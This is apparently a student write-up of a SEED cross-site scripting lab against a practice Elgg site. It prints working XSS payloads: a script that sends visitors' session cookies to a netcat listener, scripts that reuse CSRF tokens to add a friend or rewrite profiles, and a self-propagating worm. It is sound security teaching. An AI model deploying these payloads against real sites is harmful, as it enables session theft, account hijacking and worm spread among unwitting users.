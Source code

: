 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task, we verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data such as cookies for example. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

Now when a visitor arrives at Samy's profile, they will see an alert box with their session cookie inside.

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicious HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend

For a cross-site scripting attack, the information may not need to be sent to the attacker but can be used directly in the attacker's script as demonstrated in this task. By using cross-site scripting in this case, the attacker (Samy) can use a script to take the user's CSRF tokens and make a request to add himself as a friend:

```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.

## Task 5: Modifying the Victim’s Profile

In addition to adding himself as a friend, Samy can also use cross-site scripting attack in order to modify a user's profile. Again, by taking the CSRF tokens and their guid, Samy can make a malicious POST request once he knows the structure of the request. This can be done by inspecting the contents of the request with HTTP Header Live. The following script will change the profile of anyone visiting Samy's profile to say "Samy is my hero":

```html
<script type="text/javascript">
    window.onload = function(){
        // JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        // and Security Token __elgg_token
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            // Create and send xhr request to modify profile
            let xhr = null;
            xhr = new XMLHttpRequest();
            xhr.open("POST",sendurl,true);
            xhr.setRequestHeader("Host","www.xsslabelgg.com");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send(content);
        }
    }
</script>
```

### Question 3

We need this line in order to make the attack successful since the page redirects to the user's profile after saving their profile. If we remove this line (or set it to `if (true)`), once Samy saves the malicious script, it will immediately send the POST request to change his own profile to say "Samy is my hero" and therefore when future visitors arrive at his profile, that is all they will see. Therefore, we first need to check if the user viewing the page is Samy himself; if so, the attack should not happen.

## Task 6: Writing a Self-Propagating XSS Worm

One of the more widespread effects of XSS can be seen through the creation of self-propagating worms. By combining both scripts above, Samy can then create a self-propagating worm which will modify the visitor's profile and add the same script to their profile which will further spread to visitors of that profile.

```html
<script id="worm">

    window.onload = function() {
        // Self-propagate this script by adding it to the body of profile
        let headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        let jsCode = document.getElementById("worm").innerHTML;
        let tailTag = "</" + "script>";
        let wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        // Grab required data
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        // Construct the HTTP request to add Samy as a friend and modify their profile.
        let addFriendURL = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
        let profileEditURL = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero" + wormCode + "&accesslevel[description]=2" + guid;

        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            // Create and send xhr request to add friend
            let addFriend = null;
            addFriend = new XMLHttpRequest();
            addFriend.open("GET",addFriendURL,true);
            addFriend.setRequestHeader("Host","www.xsslabelgg.com");
            addFriend.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
            addFriend.send();

            // Create and send xhr request to modify profile
            let changeProfile = null;
            changeProfile = new XMLHttpRequest();
            changeProfile.open("POST",profileEditURL,true);
            changeProfile.setRequestHeader("Host","www.xsslabelgg.com");
            changeProfile.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            changeProfile.send(content);
        }
    }
</script>
```

With this script on Samy's profile, now when Alice visits Samy's profile, her page will now say "Samy is my hero" with the script embedded in it. Then later when Boby visits Alice's page, his will then say "Samy is my hero" along with a copy of the script as well.